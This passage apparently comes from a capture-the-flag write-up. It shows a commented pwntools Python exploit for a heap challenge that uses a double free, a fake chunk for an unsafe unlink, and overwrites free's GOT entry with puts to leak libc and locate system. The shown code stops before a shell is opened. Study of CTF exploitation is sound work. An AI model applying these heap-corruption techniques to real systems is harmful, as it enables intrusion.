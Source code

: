 ```python
    r.sendline(secret_kind[size])

def renew(size, content):
    r.recvuntil('3. Renew secret\n')
    r.sendline('3')
    r.recvuntil('2. Big secret\n')
    r.sendline(secret_kind[size])
    r.recvuntil('Tell me your secret:')
    r.sendline(content)


keep('small', 'AAAA')
keep('big', 'BBBB') # keep big to prevent the small chunk to consolidate with top chunk
wipe('small')

# malloc secret: malloc big enough size, it will get fastbin chunk back, so it(previous small chunk) will be move into smallbin
keep('huge', 'CCCC')

# now we can free small chunk again, since it has been moved into smallbin, it will pass the check of double free
# bypass double free, then we can put this chunk back to fastbin again
# so that we won't let big chunk's previous in use bit to be set up
wipe('small') 


fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) + p64(0x21) # fake previous size and size
payload += p64(fake_fd) + p64(fake_bk) # fake fb and bk to unlink
payload += p64(0x20) # fake previous size 
keep('small', payload)

wipe('big') # to trigger unlink

raw_input('#')

payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1)*3 # let us be easy to renew
renew('small', payload)

renew('big', p64(puts_plt)*2) # hijack free to call puts, *2 to prevent origin puts broke

payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1)*3
renew('small', payload)

wipe('big')

x = r.recvline()
base = u64(x[:6].ljust(8,'\x00')) - libc.symbols['atoi']
print hex(base)

system = base + libc.symbols['system']

```

[secret]: https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L3397